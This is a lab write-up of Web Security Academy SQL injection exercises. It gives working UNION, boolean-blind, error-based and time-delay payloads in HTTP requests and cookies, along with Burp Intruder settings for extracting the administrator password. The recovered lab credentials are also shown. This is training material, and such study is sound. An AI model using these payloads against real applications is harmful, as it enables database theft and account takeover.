 # SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`

![results-blind-oracle](images/results-blind-oracle.png)

## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

## Blind SQL injection with time delays and information retrieval

```
# Initial Request
GET / HTTP/2
Host: 0a6700fe046f338e812f434f00f40045.web-security-academy.net
Cookie: TrackingId=f3a7cn7ioKyEbnQz; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Initial check for execution (works)
Cookie: TrackingId=f3a7cn7ioKyEbnQz'|| pg_sleep(3) --; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# First Condition: Remeber we are already in a select statement
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || CASE WHEN ('1'='1') THEN pg_sleep(3) ELSE pg_sleep(0) END--; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Our first actual succefull data retrevial Request
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) < 30 
THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE 
username='administrator')-- ; 

# PW Length is 20
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn


# Test of PW char 1 1
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN (substring(password,1,1) > 'a') THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Intruder
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN substring(password,§1§,1) = '§a§' THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn
```

Intruder Settings:  

- cluster bomb
  - 1. pos = number 1-20
  - 2. pos = `a-z`, `0-9`
- set max concurrent connections to 10

In results:

- show `Response received`, which is the response time.
- Sort by that and read PW

![blind-timing-data](images/blind-timing-data.png)

